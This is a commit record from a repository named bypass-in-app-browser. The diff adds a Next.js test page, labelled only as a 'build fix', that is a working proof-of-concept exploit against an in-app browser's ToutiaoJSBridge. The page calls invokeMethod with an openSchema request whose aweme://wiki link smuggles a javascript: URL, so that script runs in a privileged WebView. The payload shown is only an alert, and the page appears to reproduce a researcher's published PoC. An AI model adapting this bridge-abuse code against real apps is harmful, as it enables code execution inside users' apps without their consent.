

Before and after one commit to Yassin-Younis/bypass-in-app-browser, a Next.js app: page /test1 in a window 1280 px wide. Before the commit this address had no page. Shown: the top 464 px of the page. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
build fix

```diff
--- /dev/null
+++ b/app/test1/page.js
@@ -0,0 +1,96 @@
+"use client"
+import {useState, useEffect} from 'react';
+import Head from 'next/head';
+
+export default function Stage1TestPage() {
+    const [isBridgeReady, setIsBridgeReady] = useState(false);
+
+    // Check for the bridge on page load
+    useEffect(() => {
+        if (typeof window !== 'undefined' && window.ToutiaoJSBridge && typeof window.ToutiaoJSBridge.invokeMethod === 'function') {
+            setIsBridgeReady(true);
+        }
+    }, []);
+
+    const executeStage1 = () => {
+        if (!isBridgeReady) {
+            alert('Cannot execute: ToutiaoJSBridge not found.');
+            return;
+        }
+
+        // --- The Stage 1 Payload ---
+        // GOAL: Open the special 'AddWikiActivity' and execute a simple alert in its WebView.
+
+        // We want the inner URL to be: javascript:alert('SUCCESS: Stage 2 Code Execution!')
+        // This needs to be URL-encoded to be a valid parameter.
+        const javascriptPayload = "javascript:alert('SUCCESS: Stage 2 Code Execution!')";
+        const encodedJavascriptPayload = encodeURIComponent(javascriptPayload);
+
+        // This is the full schema URL we are asking the bridge to open.
+        const schemaUrl = `aweme://wiki?url=${encodedJavascriptPayload}&disable_app_link=false`;
+
+        // This is the final JSON object for invokeMethod, matching the researcher's PoC.
+        const payload = {
+            "__callback_id": "0", // Using the hardcoded "0" from the PoC
+            "func": "openSchema",
+            "__msg_type": "callback",
+            "params": {
+                "schema": schemaUrl
+            },
+            "JSSDK": "1",
+            "namespace": "host",
+            "__iframe_url": "https://www.google.com/" // A neutral placeholder
+        };
+
+        try {
+            // THE COMMAND
+            window.ToutiaoJSBridge.invokeMethod(JSON.stringify(payload));
+        } catch (e) {
+            alert(`An error occurred while calling invokeMethod: ${e.message}`);
+        }
+    };
+
+    return (
+        <div>
+            <Head>
+                <title>Two-Stage Bridge Test</title>
+            </Head>
+
+            <main>
+                <h1>
+                    Bridge Vulnerability: Stage 1 Test
+                </h1>
+
+                <p>
+                    This button attempts to use <code>openSchema</code> with an <code>aweme://wiki</code> link to
+                    execute code in a new WebView context.
+                </p>
+
+                <div style={{margin: '2rem 0'}}>
+                    <button
+                        onClick={executeStage1}
+                        disabled={!isBridgeReady}
+                        style={{
+                            padding: '20px 40px',
+                            fontSize: '22px',
+                            cursor: isBridgeReady ? 'pointer' : 'not-allowed',
+                        }}
+                    >
+                        Execute Stage 1
+                    </button>
+                </div>
+
+                <div style={{
+                    marginTop: '1rem',
+                    padding: '10px',
+                    border: '1px solid #ddd',
+                    borderRadius: '5px',
+                    background: '#f8f9fa'
+                }}>
+                    <strong>Expected Outcome:</strong> If successful, a new screen or WebView may appear, and you should
+                    see a system alert box that says "SUCCESS: Stage 2 Code Execution!".
+                </div>
+            </main>
+        </div>
+    );
+}
```
